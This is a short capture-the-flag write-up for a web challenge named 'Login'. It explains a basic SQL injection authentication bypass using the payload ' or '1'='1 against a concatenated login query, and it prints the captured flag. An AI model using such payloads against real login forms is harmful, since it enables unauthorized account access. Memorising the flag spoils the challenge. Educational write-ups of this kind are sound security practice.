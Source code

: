 # Login

Category: SQL Injection, Web
Created: Nov 18, 2020 1:44 AM
Points: 175
Solved: Yes
Subjective Difficulty: 🔥🔥

# WriteUp:

## 🔎 Research:

We are given an address that hosts something like a login form. We can submit a username and a password. The credentials are sent to `/auth.php` in a POST requests.

## 📝 Vulnerability Description:

The Login From seems to be vulnerable to a basic SQL Injection.

## 🧠 Exploit Development:

 The credentials are checked on the server side with a SQL Statement that probably looks something like this:

```php
"SELECT * FROM users_db WHERE user='" + $_POST['username'] + "' and password='" + $_POST['password'] + "' 
```

So when feeding username=`' or '1'='1` and password=`' or '1'='1` , the SQL Statement will look like this:

```sql
SELECT * FROM users_db WHERE user='' or '1'='1' and password='' or '1'='1'
```

This is a valid SQL Statement and will always return true.

## 🔐 Exploit Programm:

```python

```

## 💥 Run Exploit:

![Login%2060b16579df3346da95c47da73eb3053c/sql_injection.png](Login%2060b16579df3346da95c47da73eb3053c/sql_injection.png)

![Login%2060b16579df3346da95c47da73eb3053c/successfull.png](Login%2060b16579df3346da95c47da73eb3053c/successfull.png)

**FLAG: nactf{sQllllllll_1m5qpr8x}**

## 🗄️ Summary / Difficulties:

This was a basic SQL Injection.

## 🗃️ Further References:

- [SQL Injection](https://www.notion.so/SQL-Injection-012b3241089c43ff87eb859b95b08b08)

## 🔨 Used Tools:

- 

---

# Notes:

-